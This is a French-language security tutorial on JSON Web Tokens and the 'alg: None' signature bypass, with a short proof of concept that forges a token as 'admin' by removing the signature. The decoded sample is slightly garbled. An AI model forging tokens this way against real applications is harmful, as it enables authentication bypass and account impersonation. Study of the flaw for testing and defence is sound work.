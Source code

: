 # JSON WEB TOKEN

Un JSON Web Token est fourni à l’utilisateur via un cookie lors de l’authentification

JWT fourni les mécanisme de sécurité suivant : Encryptions et Signature.

### Composition <a href="#jsonwebtoken-composition" id="jsonwebtoken-composition"></a>

JWT est composé du pattern suivant :

`Base64(Header).Base64(Data).Base64(Signature)`

Le Header contient les information sur le mécanisme de sécurité utilisé.

Pour exemple le Header suivant : `eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXUyJ9` contient ces informations :

`{ "alg": "HS256",`\
`"typ": "JWS"}`

Le Header vérifiera la signature et la signature vérifiera le Header.

Signer le Header n’empêchera pas un hacker de le falsifier et de changer l’algorithme utilisé pour la signature.

### Vulnérabilité <a href="#jsonwebtoken-vulnerabilite" id="jsonwebtoken-vulnerabilite"></a>

origine : [https://auth0.com/blog/critical-vulnerabilities-in-json-web-token-libraries/.](https://auth0.com/blog/critical-vulnerabilities-in-json-web-token-libraries/)

Plusieurs type de signature peuvent assuré l’intégrité d’un JWT :

* RSA based
* Elliptic curves
* HMAC
* None

Comme SSL (avec le NULL Cipher) JWT supporte les algorithmes de Signature None (vide).

Probablement introduit pour débugger l’application, Cependant peut avoir un impact sur la sécurité.

### Exploitation <a href="#jsonwebtoken-exploitation" id="jsonwebtoken-exploitation"></a>

Pour Exploiter cette vulnérabilité, nous avons besoin de décoder le JWT et de changer son algorithme utilisé pour la signature.

Cependant cela ne fonctionnera pas si nous n’enlevons pas la signature.

Ainsi en fournissant une signature avec le `None` algorithme nous nous assurons que la signature renseigné soit vide.

POC :

pour le JWT suivant :

`eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXUyJ9.eyJsb2dpbiI6IkFwbyIsImlhdCI6IjE2NzYwMzQ5NjQifQ.MzIwMjQ2MjBlYjI5OWFmNDM4NGM1NGQxZjkwNGViZmExZjI0YzYyOWY5OTY1MTc2YWMzZDdlMTEwNzNjNDFhZQ`

décodé en Base64 :

`{"alg":"HS256","typ":"JWS"}.{"login":"Apo","iat":"1676034964"fQ.32024620eb299af4384c54d1f904ebfa1f24c629f9965176ac3d7e11073c41aZQ`

on modifie

`{"alg":"HS256","typ":"JWS"}` en `{"alg":"None","typ":"JWS"}`

et on change le paramètre de la data

`{"login":"admin","iat":"1676034964"`}

puis on encode en Base64 sans mettre de signature.
